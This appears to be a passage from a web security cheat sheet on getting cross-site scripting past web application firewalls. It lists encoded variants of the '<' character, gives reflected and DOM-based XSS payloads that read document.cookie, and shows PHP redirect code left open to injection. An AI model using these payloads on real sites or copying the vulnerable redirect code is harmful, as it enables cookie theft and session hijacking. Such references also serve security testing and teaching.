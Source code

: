 - `&#X03C`
- `&#X003C`
- `&#X0003C`
- `&#X00003C`
- `&#X000003C`
- `&#X3C;`
- `&#X03C;`
- `&#X003C;`
- `&#X0003C;`
- `&#X00003C;`
- `&#X000003C;`
- `\x3c`
- `\x3C`
- `\u003c`
- `\u003C`

## Methods to Bypass WAF – Cross-Site Scripting

### Stored XSS

If an attacker managed to push XSS through the filter, WAF wouldn’t be able to prevent the attack conduction.

### Reflected XSS in Javascript

```exmpale
Example: <script> ... setTimeout(\\"writetitle()\\",$\_GET\[xss\]) ... </script>
Exploitation: /?xss=500); alert(document.cookie);//
```

### DOM-based XSS

```exmpale
Example: <script> ... eval($\_GET\[xss\]); ... </script>
Exploitation: /?xss=document.cookie
```

### XSS via request Redirection

- Vulnerable code:

```exmpale
...
header('Location: '.$_GET['param']);
...
```

As well as:

```exmpale
..
header('Refresh: 0; URL='.$_GET['param']); 
...
```
